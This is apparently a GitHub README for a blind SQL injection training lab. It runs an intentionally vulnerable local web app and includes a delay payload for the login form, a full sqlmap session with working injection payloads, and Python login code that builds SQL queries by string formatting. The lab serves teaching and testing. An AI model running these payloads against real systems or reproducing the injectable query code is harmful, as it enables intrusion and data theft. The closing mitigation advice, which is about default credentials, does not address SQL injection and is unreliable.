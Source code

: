 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/blind-sql-injection.svg"></p>

An application enables users to interact with a database insecurely. A threat actor can exploit this feature by injecting a malicious query into a trusted web application. When the malicious query is executed, the application behaves normally without showing errors. This type of behavior indicates that the attack is blind

Clone this current repo recursively
```sh
git clone --recurse-submodules https://github.com/qeeqbox/blind-sql-injection
```
Run the webapp using Python
```sh
python3 blind-sql-injection/vulnerable-web-app/webapp.py
```
Open the webapp in your browser 127.0.0.1:5142
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/1.png"></p>
Right-click on the page and open Developer Tools, then Networking (This will be used to determine the time taken for the web application to respond for login)
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/2.png"></p>
Type in the username: ' OR RANDOMBLOB(1000000000/2)-- and password: test, if executed, the web application will be vulnerable to blind SQL injection, and that payload will cause a delay
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/3.png"></p>
The payload was executed successfully and caused a delay
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/4.png"></p>

```sh
user@users-Mac-mini vulnerable-web-app % sqlmap http://127.0.0.1:5142/login --data 'username=test&password=test' -p 'username' --dbms=sqlite --level 5 --risk 3 --ignore-code 401 --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:20:04 /2025-07-26/

[11:20:04] [INFO] testing connection to the target URL
[11:20:04] [INFO] testing if the target URL content is stable
[11:20:05] [INFO] target URL content is stable
[11:20:05] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[11:20:05] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
[11:20:05] [INFO] testing for SQL injection on POST parameter 'username'
[11:20:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:20:05] [WARNING] reflective value(s) found and filtering out
[11:20:05] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
got a 302 redirect to 'http://127.0.0.1:5142/'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[11:20:05] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[11:20:05] [INFO] testing 'Generic inline queries'
[11:20:05] [INFO] testing 'SQLite inline queries'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[11:20:13] [INFO] POST parameter 'username' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable 
[11:20:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:20:13] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:20:13] [INFO] target URL appears to be UNION injectable with 7 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[11:20:13] [INFO] testing 'Generic UNION query (99) - 21 to 40 columns'
[11:20:13] [INFO] testing 'Generic UNION query (99) - 41 to 60 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 61 to 80 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 81 to 100 columns'
[11:20:14] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[11:20:14] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 304 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-6373' OR 4741=4741-- IGcq&password=test

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=test' OR 3859=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- atch&password=test
---
[11:20:14] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[11:20:14] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 240 times
[11:20:14] [INFO] fetched data logged to text files under '/Users/user/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 11:20:14 /2025-07-26/
```

## Code
When user send a username and password in POST request to the login route, the check_creds() is called 
```py
if parsed_url.path == "/login" and "username" in post_request_data and "password" in post_request_data:
    ret = self.check_creds(post_request_data['username'][0],post_request_data['password'][0])
    if isinstance(ret, list) and ret[0] == "valid":
        self.send_content(302, self.gen_cookie(ret[1],60*15)+[('Location', URL)], None)
        self.log_message("%s logged in" % post_request_data['username'][0])
        return
    elif isinstance(ret, list) and ret[0] == "password":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"Password is wrong".encode("utf-8"), b"login"))
        return
    elif isinstance(ret, list) and ret[0] == "username" or isinstance(ret, list) and ret[0] == "error":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"User {post_request_data['username'][0]} doesn't exist".encode("utf-8"), b"login"))
        return
```
The check_creds() function checks if the username and password value are valid credentials; it does not check if either is sanitized or valid
```py
def check_creds(self, username, password):
    try:
        with connect(DATABASE, isolation_level=None, check_same_thread=False) as connection:
            cursor = connection.cursor()
            ret = cursor.execute("SELECT * FROM users WHERE username='%s'" % (username)).fetchall()
            if ret:
                ret = cursor.execute("SELECT * FROM users WHERE username='%s' AND hash='%s'" % (username,sha512(password.encode("utf-8")+SALT).hexdigest())).fetchone()
                if ret:
                    return ["valid",ret]
                else:
                    return ["password",ret]
            else:
                return ["username", username]
    except Exception as e:
        return ["error",str(e).encode("utf-8")] 
```
```
 
## Impact
Vary

## Risk
- Unauthorized Access
- System Compromise
- Operational Disruption
- Legal and Financial Damage
  - Compliance Failures
  - Reputation Damage

## Redemption
- Disable, remove or change default credentials
- Alternative Authentication Mechanisms

## ID
91f9b046-b802-425a-b71b-64c21c6b1c0f

